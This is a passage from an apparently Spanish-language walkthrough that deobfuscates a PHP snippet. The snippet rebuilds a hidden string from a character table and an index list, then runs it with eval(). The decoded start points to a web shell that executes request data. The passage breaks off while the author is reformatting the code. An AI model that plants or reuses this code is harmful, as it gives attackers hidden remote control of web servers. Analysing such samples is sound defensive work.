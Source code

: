 ```php
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```

Pero así parece ilegible lo que tenemos, mejor ordenemos un poco mejor:

```php
<?php
$terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

```